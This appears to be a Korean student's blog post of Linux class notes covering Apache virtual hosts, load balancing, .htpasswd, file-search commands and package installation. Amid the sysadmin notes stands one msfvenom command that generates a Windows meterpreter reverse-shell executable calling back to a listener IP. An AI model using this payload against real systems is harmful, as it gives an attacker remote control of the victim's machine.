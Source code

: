 ```yaml
---
layout: post
title:  "2일차 Linux 수업정리"
date:   2019-03-23 
categories : unknown
---
```


---
## Virtual host: 하나의 도메인으로 여러 웹 사이트를 운영하는 기법
---
필요조건 - 호스트가 하나거나 도메인이 하나인 경우에 여러 웹 사이트를 운영할 수 있다.  
(IP-based, Name-based, Port-based 기법 사용)  
  
  
  
---
### IP-based 실습
---
<VirtualHost 192.168.100.200:80>  
 ServerAdmin admin@localhost  
 DocumentRoot /var/www/xyz  
 DirectoryIndex index.html  
<Directory /var/www/xyz>  
 Order allow,deny  
 Allow from all  
</Directory>  
</VirtualHost>  
  
  
  
---
### Round Robin, Load Balancing, Fault Tolerance
---
http://192.168.100.129 -> kahn.edu homepage  
                   128 ->        "  
                   127 ->        "  
  
---
  
  
	* pid 관리 중요
	* 랜섬웨어 관련 change root(fake!)
	* sudo는 일시적으로 관리자로 변경
	* su - root 에서 - 붙여야 본인 디렉토리로 이동함
	* selinux는 미 국방부에서 만든것, 고급보안임 (set uid.. sticky bit..)
	* 설정을 다 했는데 인터넷 안되면 nslookup 명령어 
	* echo는 저장된 설정이 있으면 보여줘라 or 파일 만드는 명령어 
  
  
---
## .htpasswd .htaccess
---
> htpasswd -c /etc/httpd/conf/.htpasswd centos  
> htpasswd /etc/httpd/conf/.htpasswd ubuntu  
  
  
startx -> 그래픽으로 보여주는 명령어  
msfvenom -p windows/meterpreter/reverse tcp lhost=192.168.100.131 lport=1234 -f exe > /root/Desktop/shell.exe
  
  
  
---
### 실시간으로 네트워크를 감시하는 명령어 
---
tail -f option! 
tail -f /var/log/syslog  
  
백트랙의 해킹도구가 되는 근거는 바로 promiscuous mode  
SNMP 네트워크 모니터링  
  
*영원히 접근 못하게 막는 기법*  
jail2ban  
fail2ban  
  
  
  
---
### 빈파일 만드는 명령어 
---
touch  
echo >  
ex) touch xyz  
ex) echo > xyzz  
  
  
  
---
### 파일찾는 명령어
---
* find / -type f -name passwd (passwd파일을 찾고자 할때)  
* locate passwd  
* which passwd (명령어를 찾을때는 which가 좋다)  
* whereis passwd (관리자들이 많이 쓴다)  
* find /home -type f -size 0 -exec ls -l {} \; (find 시작위치 type 타입 size 크기 exec 명령어)
  
  
  
---
### dpkg -i
---
* Debian 계열의 Debian, Ubuntu는 파일이 *.deb이다.  
* dpkg -i *.deb로 설치한다.(별도로 이 *.deb파일을 다운받았을때)  
* apt-get install abc하면 abc파일을 설치한다.(바로 웹에서 다운받아서 설치할 때)  
* dpkg -r abc로 삭제한다.  
* RedHat 계의의 Fedora, CentOS는 파일이 *.rpm,*.tar.gz, *.tar.bz2 이다.  
* tar xvfz *.tar.gz tar xvfj *.tar.bz2해서 설치한다.  
  
  
  